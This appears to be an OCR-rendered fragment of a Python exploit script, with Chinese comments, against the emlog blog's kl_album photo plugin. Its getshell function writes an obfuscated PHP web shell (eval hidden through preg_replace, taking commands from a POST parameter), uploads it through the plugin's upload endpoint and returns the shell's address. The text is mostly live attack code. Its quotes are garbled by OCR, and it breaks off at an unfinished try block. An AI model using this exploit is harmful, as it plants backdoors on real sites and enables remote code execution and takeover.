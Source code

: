 ```
print ‘实例: ’ + os.path.basename(sys.argv[0]) + ’ [http://www.waitalone.cn/](http://www.waitalone.cn/)’

sys.exit()

def getshell(url):

‘’’

emlog相册插件上传getshell函数

:param url:  emlog url地址

:return:     返回得到的shell地址

‘’’

up_url = url + ‘content/plugins/kl_album/kl_album_ajax_do.php’

shell = “<?php @preg_replace(’\‘a\‘eis’,‘e’.‘v’.‘a’.‘l’.’($_POST[“hstsec”])’,‘a’);?>”

filename = “oneok’.php”

with open(filename, ‘wb’) as shellok:

shellok.write(shell)

files = {

‘Filedata’: (filename, open(filename, ‘rb’), ‘text/json’),

‘album’: (None, ‘[waitalone.cn](http://waitalone.cn)’)

}

try:

up_res = requests.post(up_url, files=files).content

shellok = re.findall(re.compile(r’(?<=../).+?(?=’,)’), up_res)

except Exception, msg:

print ‘\n[x] 发生错误了,卧槽!!!:’, msg

else:

if shellok: return url + shellok[0]

if **name** == ‘**main**’:

usage()

start = time.time()

url = sys.argv[1]

if url[-1] != ‘/’: url += ‘/’

ok = getshell(url)

try:

```